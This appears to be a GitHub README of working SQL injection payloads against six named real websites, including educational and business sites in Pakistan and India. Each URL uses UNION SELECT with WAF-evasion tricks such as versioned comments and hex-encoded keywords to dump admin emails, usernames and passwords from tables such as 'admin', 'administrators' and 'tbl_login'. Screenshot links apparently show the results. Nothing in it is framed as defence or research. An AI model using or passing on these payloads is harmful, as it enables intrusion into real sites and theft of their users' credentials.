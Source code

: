 # sqli-waf-website-and-dump-data

Find sqli waf website and dump data

1.
https://www.technos.in/news-details.php?Id=-8' /*!50000Union*/ /*!50000Select*/ 1,/*!50000concat*/(user_email,0x3d,user_pass),3,4,5,6,7 from admin--+
![1](https://github.com/AfrinShahana/sqli-waf-website-and-dump-data/assets/123531000/01a6ac1d-8ac7-41d4-b775-fc6f95ada34b)



2.
https://tsoad.edu.pk/blog-detail.php?id=-29'   /*!50000Union*/ Select 1,concat(email,0x3d,password),3,4,5,6,7 from user--+
![2](https://github.com/AfrinShahana/sqli-waf-website-and-dump-data/assets/123531000/5c9c5ff8-58ac-483c-b4ae-8d75b2ea354b)



 


3.
http://www.igoergo.com/_site/about.php?id=4%20%20Union%20Select%201,2,Concat(username,%200x3d3d,password),4,5,6%20from%20member
![3](https://github.com/AfrinShahana/sqli-waf-website-and-dump-data/assets/123531000/6668b8c8-bf8d-43ed-aefc-8e679e7c5c43)
 

4.
https://longlife.com.pk/category.php?id=-21  /*!50000%55%6e%69%6f%6e*/ /*!50000%53%65%6c%65%63%74*/ 1,/*!50000concat*/(email,0x3d,password),3,4,5,6 from administrators--+
![4](https://github.com/AfrinShahana/sqli-waf-website-and-dump-data/assets/123531000/2987aa38-9673-49e8-b8bd-f6d230e7ba0c)
 

5.
http://www.sabrigroup.pk/index.php?_a=gallery&id=15  /*!50000%55%6e%69%6f%6e*/ Select 1,concat(username,0x3d,password),3 from CubeCart_admin_users--+
![5](https://github.com/AfrinShahana/sqli-waf-website-and-dump-data/assets/123531000/ef7b8de1-fee4-4661-aa27-903bd63778ff)
 
6.
https://www.tnjfu.ac.in/cofenag/workshop-read-more.php?id=-7  /*!50000%55%6e%69%6f%6e*/ /*!50000%53%65%6c%65%63%74*/ 1,concat(l_remarks,0x3d,l_password),3,4,5,6,7 from tbl_login--+
![6](https://github.com/AfrinShahana/sqli-waf-website-and-dump-data/assets/123531000/45655301-8aeb-416a-8053-001a1c0a111a)
 
